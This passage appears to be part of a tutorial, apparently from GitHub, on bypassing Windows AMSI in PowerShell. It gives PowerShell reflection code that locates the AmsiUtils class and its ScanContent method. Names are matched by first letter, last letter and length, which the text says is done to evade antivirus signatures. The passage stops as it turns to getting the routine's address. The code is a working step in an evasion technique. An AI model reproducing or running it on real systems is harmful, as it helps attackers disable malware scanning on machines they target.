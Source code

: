 Next, we will go through the loaded assemblies at runtime in powershell and search for `ScanContent` method dynamicaly which is inside the `AmsiUtils` Class in `System.Management.Automation.dll` assembly.

This is possible because `System.Management.Automation.dll` is already loaded to the powershell process for use.

So the next piece of code will search in a smart way (to bypass AV signatures) by checking the first and the last letter of the assembly `FullName property` with the right length as well to find the `System.Management.Automation.dll` and then get all the types of that assembly (which means get all the classes of that assembly)

```
$Assemblies = [appdomain]::currentdomain.getassemblies()
$Assemblies |
  ForEach-Object {
    if($_.Location -ne $null){
        $split1 = $_.FullName.Split(",")[0]
        If($split1.StartsWith('S') -And $split1.EndsWith('n') -And $split1.Length -eq 28) {
            $Types = $_.GetTypes()
        }
    }
}
```

The next piece of code will go and search for `AmsiUtils` class inside our assembly and get all the methods inside it.

```
$Types |
  ForEach-Object {
    if($_.Name -ne $null){
        If($_.Name.StartsWith('A') -And $_.Name.EndsWith('s') -And $_.Name.Length -eq 9) {
            $Methods = $_.GetMethods([System.Reflection.BindingFlags]'Static,NonPublic')
        }
    }
}
```

Next, we are gonna go and search for the `ScanContent` function inside the methods that we gathered from `AmsiUtils` Class.

```
$Methods |
  ForEach-Object {
    if($_.Name -ne $null){
        If($_.Name.StartsWith('S') -And $_.Name.EndsWith('t') -And $_.Name.Length -eq 11) {
           $MethodFound = $_
        }
    }
}
```

`MethodFound` will contain the handle to the `ScanContent` routine.

The next piece of code will give us the address of that routine.
